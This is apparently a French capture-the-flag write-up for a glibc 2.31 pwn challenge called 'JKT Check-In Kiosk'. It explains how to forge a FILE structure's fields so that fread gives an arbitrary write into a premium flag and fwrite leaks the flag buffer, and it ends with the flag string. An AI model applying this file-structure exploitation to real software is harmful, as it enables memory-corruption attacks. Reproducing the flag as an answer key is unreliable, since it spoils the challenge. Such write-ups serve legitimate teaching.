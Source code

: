 # JKT Check-In Kiosk

## Write-up

Le binaire (glibc 2.31) propose une borne d'enregistrement avec 3 actions. Les options **1** et **3** effectuent **une seule lecture non bornée dans une structure `FILE`** allouée par le programme (`fopen("/dev/null", "r"/"w")`).

**Arbitrary write via `fread` — option 1**
```
fp->_flags       = 0x0
fp->_IO_buf_base = &is_premium
fp->_IO_buf_end  = &is_premium + 0x101
fp->_fileno      = 0
```
On force la lecture via le chemin `fread → _IO_file_xsgetn → __underflow → _IO_new_file_underflow`, ce qui lit **depuis `stdin` directement dans `is_premium`**.  
En envoyant `\x01`, on passe `is_premium` à `1`.

**Chargement du flag — option 2**  
Avec `is_premium == 1`, le programme lit `/tmp/flag.txt` dans le buffer global `win`.

**Arbitrary read/print via `fwrite` — option 3**
```
fp->_flags        = 0x0800
fp->_IO_write_base= &win
fp->_IO_write_ptr = &win + 60
fp->_IO_write_end = &win
fp->_fileno       = 1
```
Le flush forcé dans la chaîne `fwrite → _IO_file_xsputn → _IO_do_write` déclenche un `write(1, &win, 0x3c)` → fuite du flag.

Le code de la [solution](solution.py).

## Flag
`flag-wu92phofpc78upd9`
